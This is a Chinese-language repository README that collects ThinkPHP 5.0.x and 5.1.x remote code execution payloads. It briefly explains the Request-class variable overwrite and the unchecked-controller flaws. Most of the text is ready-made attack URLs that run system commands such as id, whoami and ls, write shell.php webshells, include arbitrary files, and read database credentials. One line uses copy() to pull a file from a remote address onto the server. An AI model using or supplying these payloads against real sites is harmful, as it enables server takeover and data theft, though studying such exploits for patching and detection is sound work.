 # tp5rce
tp5rce各版本payload。
最近学了一下tp5rce漏洞，翻了一圈还是y4的payload比较全，特此做个备份，方便有需要时候再来翻。







# 原理
payload分为两种类型，一种是因为Request类的method和__construct方法造成的(method可控，配合construct变量覆盖filter导致的)，另一种是因为Request类在兼容模式下获取的控制器没有进行合法校验(兼容模式默认开启,由于没有进行合法校验，导致可以任意类的任意方法)   

核心: 起点Request类的method和__construct造成的变量覆盖，终点filterValue。

- 第一种

`_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al`   

Request类的method方法$this->method可控导致可以调用__contruct()覆盖Request类的filter字段，然后App::run()执行判断debug来决定是否执行$request->param()，并且还有$dispatch['type'] 等于controller或者 method(captcha路由) 时也会执行$request->param()，而$request->param()会进入到input()方法，在这个方法中由于覆盖的filter进入了filterValue(),而该方法中就存在可利用d的call_user_func 函数造成rce。   

Request 类中的 param、route、get、post、put、delete、patch、request、session、server、env、cookie、input 方法均调用了 filterValue 方法
- 第二种

`?s=index/\think\Request/input&filter[]=system&data=pwd`  
某些版本可以不要`/\`   
`?s=index/think\config/get&name=database.username`

开启兼容模式，未合法校验传入的控制器，导致任意类方法调用。

# payload

payload来自各大佬的总结。

5.1.x 
```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>             //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```

5.0.x 
```
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```

